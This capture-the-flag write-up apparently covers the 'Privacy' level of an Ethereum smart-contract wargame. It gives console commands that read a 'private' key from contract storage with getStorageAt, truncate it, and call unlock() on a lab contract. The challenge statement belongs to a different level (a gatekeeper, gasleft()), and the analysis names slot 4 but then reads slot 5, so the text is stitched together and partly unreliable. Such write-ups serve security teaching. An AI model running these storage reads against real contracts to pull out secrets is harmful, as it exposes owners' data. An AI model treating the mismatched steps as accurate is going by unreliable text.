 # Privacy

## Challenge Statement

Make it past the gatekeeper and register as an entrant to pass this level.
Things that might help:

    Remember what you've learned from the Telephone and Token levels.
    You can learn more about the special function gasleft(), in Solidity's documentation (see here and here).

## Analysis

The private data is stored in the contract, can we access the right piece of data?
e.g web3.eth.getStorageAt('<target address>', 1)
slot 4 seems to hold the bytes32 data we need which is then cast down to 16 bytes
key_32 = web3.eth.getStorageAt('0x9E829A37115350C2F754d8A6577c2Ec8abf940Cb', 5)
=d51be7a7185442e39eb1e5bd3b462b440c4a6b0f6ac15dfe358adfc2627e7907
take MS 16 bytes = 32 hex chars
python: x = ..; x[:32]
key = 0xd51be7a7185442e39eb1e5bd3b462b44
contract.unlock('0xd51be7a7185442e39eb1e5bd3b462b44')

## Solution

```
$ key_32 = web3.eth.getStorageAt('0x9E829A37115350C2F754d8A6577c2Ec8abf940Cb', 5)
$ python: x = ..; x[:32]
$ console : key = 0xd51be7a7185442e39eb1e5bd3b462b44
$ console : contract.unlock('0xd51be7a7185442e39eb1e5bd3b462b44')
```

## Moral

Nothing in the ethereum blockchain is private. The keyword private is merely an artificial construct of the Solidity language. Web3's getStorageAt(...) can be used to read anything from storage. It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.

It can't get much more complicated than what was exposed in this level. For more, check out this excellent article by "Darius": How to read Ethereum contract storage